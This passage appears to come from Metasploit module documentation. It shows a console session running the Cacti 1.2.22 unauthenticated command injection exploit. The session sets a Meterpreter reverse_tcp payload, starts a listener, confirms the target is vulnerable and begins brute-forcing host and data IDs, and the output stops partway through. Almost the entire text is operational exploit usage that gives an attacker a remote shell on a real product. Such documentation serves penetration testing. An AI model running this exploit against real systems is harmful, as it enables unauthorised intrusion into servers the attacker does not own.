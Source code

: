 ## Scenarios
### Cacti 1.2.22 - Linux Dropper - HOST_ID and LOCAL_DATA_ID not set (bruteforce)
```
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > options 

Module options (exploit/linux/http/cacti_unauthenticated_cmd_injection):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   HOST_ID                              no        The host_id value to use. By default, the module will try to bruteforce this.
   LOCAL_DATA_ID                        no        The local_data_id value to use. By default, the module will try to bruteforce this.
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS              192.168.91.195   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT               8080             yes       The target port (TCP)
   SRVHOST             192.168.91.195   yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all add
                                                  resses.
   SRVPORT             9090             yes       The local port to listen on.
   SSL                 false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                              no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI           /                yes       The base path to Cacti
   URIPATH                              no        The URI to use for this exploit (default is random)
   VHOST                                no        HTTP server virtual host
   X_FORWARDED_FOR_IP  127.0.0.1        yes       The IP to use in the X-Forwared-For HTTP header. This should be resolvable to a hostname in the poller table.


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.91.195   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Linux Dropper)



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > run

[*] Started reverse TCP handler on 192.168.91.195:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Cacti version 1.2.22
[*] Trying to bruteforce an exploitable host_id and local_data_id by trying up to 505 combinations
[*] Enumerating local_data_id values for host_id 1
[*] Performing request 25...
[*] Performing request 50...
[*] Performing request 75...
```